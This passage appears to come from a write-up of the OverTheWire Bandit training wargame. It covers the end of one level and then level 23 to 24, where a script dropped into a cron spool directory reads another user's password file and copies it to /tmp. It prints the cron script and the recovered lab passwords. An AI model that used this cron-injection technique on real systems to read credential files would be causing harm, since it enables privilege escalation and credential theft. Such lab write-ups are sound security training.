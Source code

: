 ```shell
./shell
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

## Result
`QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`


# Level 23 -> 24
## Level Goal 
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

## Solution
{%asset_img bandit17.png bandit17%}
&emsp;Create folder in /tmp folder. Set permission all for this. create `shell.sh`. we have `shell.sh`.
```shell
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.MJFUqp7VWR/password
```
&emsp;Copy `shell.sh` and paste it into `/var/spool/bandit24/foo` with the name `shell.sh` because when checking the crontab, it shows that it runs `/usr/bin/cronjob_bandit24.sh`.
```shell
bandit23@bandit:/tmp/tmp.MJFUqp7VWR$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/tmp/tmp.MJFUqp7VWR$ 
```

## Result
`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

